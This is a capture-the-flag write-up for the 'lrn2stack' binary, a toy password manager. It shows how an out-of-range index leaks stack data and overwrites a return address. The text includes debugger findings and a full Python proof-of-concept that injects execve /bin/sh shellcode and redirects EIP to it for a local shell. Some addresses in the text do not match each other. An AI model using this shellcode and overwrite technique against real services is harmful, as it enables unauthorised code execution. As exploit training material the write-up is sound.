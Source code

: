 # lrn2stack

When running the binary, it expects a few options as user input: choice of function, index of storage, and data to be stored (username and password).

The prompt with expected input appears as below:

```
Welcome to the Very Useful Password Manager
Please input an option
1: add credentials
2: print credentials
3: remove credentials
4: exit
-> 1
enter index
-> 0
enter username
-> AAAA
enter password
-> BBBB
Please input an option
1: add credentials
2: print credentials
3: remove credentials
4: exit
-> 2
enter index-> 0
AAAA:BBBB
```

Choosing the option 1: add credentials will prompt the user for an index to write to and then ask the user to input a 32 character username and a 32 character password. Using gdb, it was determined that the username and password would be stored adjacent on the stack.

![disas1](./lrn2stack1.png)

Choosing the option 2: print credentials will prompt the user for an index to access a username and password and print them in the format "username:password"

![disas2](./lrn2stack2.png)

Effectively, these can be used to write and read data.

By providing some unexpected input to the index of storage, (ascii 0x2e '.') the following data was printed:

```
Please input an option
1: add credentials
2: print credentials
3: remove credentials
4: exit
-> 2
enter index-> .
��:b�
Please input an option
1: add credentials
2: print credentials
3: remove credentials
4: exit
```

Following the same input to the binary in strace, this is shown to be: 

`write(0, "\4\27\342\367:b\207\4\10\n", 10��:b�`

When converted to hex, these values are: 

`\x04\x17\xe2\xf7:\x62\x87\x04\x08\x0a`

On the left side, the 4-byte value starting with \xf7 appears to be a stack address whereas on the right side, the value 0x08048762 appears to be an address in .text, meaning a possible return address.

Examining the instruction at 0x080f8762 was found to be add esp, 0x10 after a call to printf

When testing the write in gdb, got a segmentation fault and overwrite of EIP

![segfault](./lrn2stack3.png)

At this point, a possible course of action is to first write shellcode to the stack using add credentials then use the add credentials option to write to index '.', overwriting the return address to point to the shellcode on the stack.

To find a valid stack address, the binary was hosted on socat and hooked up to gdbserver. Breakpoint was set after printf at 0x08048762 when reading with option 2, then stack was examined. In the image below, the stack address used would be 0xffffce9c pointing to where the user input for username will be stored on the stack at index 0.

![findstackaddress](./lrn2stack4.png)

After checking for security mitigations (no PIE, no NX, ASLR off), the proof of concept for the exploit was developed.

```
#!/usr/bin/python
# lrn2stack.elf
# Executed from root@aws-40:~/Downloads/bsidessactf# socat TCP-LISTEN:2323,reuseaddr,fork EXEC:"./lrn2stack.elf"
# NO PIE, NX OFF, ASLR OFF
# b *0x08048762

import socket
import struct
import telnetlib

TCP_IP = 'localhost'
TCP_PORT = 2323
# stack range - 0xfffdd000 0xffffe000    0x21000        0x0 [stack]

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((TCP_IP, TCP_PORT))

print s.recv(1024)
#"Please input an option"
s.send("1\n")

print s.recv(1024)
#"enter index"
# store shellcode at 0xffffcebc
s.send("0\n")

print s.recv(1024)
# shellcode 24 bytes from https://www.exploit-db.com/exploits/42428/
username = "\x31\xc0\x99\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80" + "\n"

s.send(username)

print "SENDING > " + username.encode('hex')
print s.recv(1024)

password = "BBBB\n"
s.send(password)
print s.recv(1024)

print s.recv(1024)

# Now trigger eip overwrite to point to shellcode at 0xffffcebc
s.send("1\n")

print s.recv(1024)
s.send(".\n")

print s.recv(1024)
s.send("AAAA\n")

print s.recv(1024)
password = struct.pack("I", 0xffffce9c) + "\n"
# 0xffffce4c
# 0xffffce9c
# 0xffffceac
s.send(password)

print "Did we get a shell?"

t = telnetlib.Telnet()
t.sock = s
t.interact()
```

